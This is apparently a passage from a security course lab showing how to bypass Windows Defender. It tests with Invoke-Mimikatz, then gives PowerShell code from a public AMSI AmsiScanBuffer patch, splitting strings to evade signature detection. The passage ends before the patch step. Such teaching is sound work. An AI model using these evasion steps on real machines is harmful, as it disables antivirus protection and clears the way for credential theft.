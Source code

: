 > [!activity] Activity 5.14 - Bypassing Defender
> I will demonstrate how to bypass Windows Defender using the Windows VM in a PowerShell session.  After starting the machine, I search for Virus & Threat Protection to launch the Defender settings.  Scrolling down the Windows Security window I can see that Defender is enabled and running.
> ![[../images/05/win_activity_av_defender_running.png|Defender Up and Running|300]]
> To demonstrate a bypass, I need to execute commands in a running process.  I launch a PowerShell session from the search bar not as administrator.  Defender hooks into this newly created process and will monitor the memory space for malicious behavior.  I know that the `Invoke-Mimikatz` will trigger Defender to kill the command as this function is associated with a common hacking technique to extract NTML hashes from a Windows system.  To test that Defender is working, I include this command and observe Defender taking action.
> ```cmd
> powershell
> Invoke-Mimikatz
> ```
> ![[../images/05/win_activity_bypass_test3.png|Testing Defender|600]]
> I can see that Defender detected the string and blocked the command.  Next, I run several commands designed to replace the malicious detection result in the running process with a passing result no matter the behavior.  These bypass commands are found on S3cur3Th1sSh1t's GitHub repository Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsi-amsiscanbuffer-by-rasta-mouse. [^2] 
> 
> There are several bypasses I can use, however, some of them no longer work.  I will use the Patching AMSI AmsiScanBuffer by rasta-mouse as it continues to be effective at the time of this writing.  If I copy and paste the entire script and attempt to run it in the PowerShell process, Defender will detect it and block the activity.  Therefore, I copy and paste each command one at a time to elude detection.  The first block loads the Windows API kernel library functions needed to manipulate memory space into a variable that I use in the following commands.
> ```powershell
> $Win32 = @"
> 
> using System;
> using System.Runtime.InteropServices;
> 
> public class Win32 {
> 
>     [DllImport("kernel32")]
>     public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
> 
>     [DllImport("kernel32")]
>     public static extern IntPtr LoadLibrary(string name);
> 
>     [DllImport("kernel32")]
>     public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
> 
> }
> "@
> 
> Add-Type $Win32
> ```
>![[../images/05/win_activity_bypass_functions.png|Importing Kernel Memory Functions|600]]
>In the next command, I load the `amsi.dll` library into another variable to use later.  Notice in the command that "amsi" is broken up into two segments that are concatenated, or placed together.  This is to avoid the raw completed string from being detected and blocked by Defender. 
>```powershell
>$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
>```
>To patch the AmsiScanBuffer process, I need to know where it is located in memory.  The GetProcAddress kernel function loaded earlier can assist by returning the address of the given function.  However, as we demonstrated earlier, using the raw string will cause Defender to block the command.  Therefore, again we use the concatenate method to evade signature detection.
>```powershell
>$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")

[^1]: VirusTotal - File; February 2024; https://www.virustotal.com/gui/file/31eb1de7e840a342fd468e558e5ab627bcb4c542a8fe01aec4d5ba01d539a0fc
[^2]: Amsi-Bypass-Powershell; GitHub S3cur3Th1sSh1t; February 2024; https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsi-amsiscanbuffer-by-rasta-mouse